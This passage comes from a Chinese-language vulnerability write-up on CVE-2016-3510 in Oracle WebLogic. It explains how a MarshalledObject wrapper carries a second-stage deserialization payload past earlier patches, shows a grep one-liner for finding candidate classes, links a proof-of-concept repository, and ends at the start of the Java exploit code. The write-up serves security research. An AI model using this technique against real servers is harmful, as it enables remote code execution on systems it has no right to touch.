 之后用如下命令搜索包含readObject和readResolve关键字的函数

```
grep -nr "readResolve" --include="*.class" ./  2&gt;/dev/null | awk '`{`print "grep -nr readObject " $3`}`' | bash
```

搜索到的结果如下

[![](https://p1.ssl.qhimg.com/t01885799766066226a.png)](https://p1.ssl.qhimg.com/t01885799766066226a.png)

这种搜索方式只能给我们缩小范围，并不能做到精准定位。后面还需要人工分析每个类中是否真的是readResolve函数中调用了readObject函数。当然这种死板的搜索方式也会有很多漏报，比如readObject被封装在了其他类的函数中，我们基本就无法搜到了，不过目前来讲这种方式已经够用了。



## 0x04 Payload构造

### <a class="reference-link" name="0x1%20MarshalledObject%E5%88%86%E6%9E%90"></a>0x1 MarshalledObject分析

那么从搜索到的第一个文件开始分析oracle/middleware/wlserver/server/lib/wlclient/weblogic/corba/utils/MarshalledObject.class<br>
其关键代码如下

[![](https://p5.ssl.qhimg.com/t01e5f7cfda743dfeae.png)](https://p5.ssl.qhimg.com/t01e5f7cfda743dfeae.png)

使用新创建的ObjectInputStream方法，反序列化this.objBytes中的数据，因为之前的补丁都在**FilteringObjectInputStream**类和**ServerChannelInputStream**类中，所以当调用readObject的时候就可以成功执行反序列化利用链。

那么如何构payload，主要观察this.objBytes数据是何时填充的。注意到该类的构造方法存在比较有意思的操作

[![](https://p3.ssl.qhimg.com/t01f38f61da66e59781.png)](https://p3.ssl.qhimg.com/t01f38f61da66e59781.png)

MarshalledObject接收到参数通过var3进行序列化，并将相关数据存储在objBytes中。因此我们只需要把二次反序列化对象填充在MarshalledObject构造方法参数中即可。

### <a class="reference-link" name="0x2%20%E7%BC%96%E5%86%99%E4%BB%A3%E7%A0%81"></a>0x2 编写代码

完整代码链接 [https://github.com/BabyTeam1024/CVE-2016-3510](https://github.com/BabyTeam1024/CVE-2016-3510)

```
package main;

import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import weblogic.corba.utils.MarshalledObject;
import weblogic.jms.common.StreamMessageImpl;
import weblogic.jms.common.TextMessageImpl;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class cve_2016_3510 `{`
    public Object getObject() throws Exception `{`
```